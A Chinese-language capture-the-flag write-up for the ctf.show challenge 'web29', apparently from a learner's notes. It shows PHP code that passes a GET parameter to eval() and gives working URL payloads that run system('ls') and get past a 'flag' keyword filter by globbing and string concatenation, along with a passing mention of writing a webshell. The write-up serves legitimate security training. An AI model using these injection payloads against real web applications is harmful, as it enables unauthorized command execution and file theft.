


# web29

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

题目接收`c`参数，并且拦截规则是不分大小写检测`flag`关键词

可以先尝试列出当前目录

```plaintext
https://1fcd81c8-f80a-4a48-a3d3-f29608634bb3.challenge.ctf.show/?c=system("ls");

-rw-r--r-- 1 www-data www-data 280 Feb 24 09:38 flag.php
-rw-r--r-- 1 www-data www-data 377 Sep 3 2020 index.php
```



然后，基于shell的特性，可以尝试文件名匹配

```plaintext
https://1fcd81c8-f80a-4a48-a3d3-f29608634bb3.challenge.ctf.show/?c=system("cat fl*g.php");
```



当然，字符串拼接也是可以的

```plaintext
https://1fcd81c8-f80a-4a48-a3d3-f29608634bb3.challenge.ctf.show/?c=system("cat fl"."ag.php");
```


甚至写一个webshell也是可以的，这里不加赘述
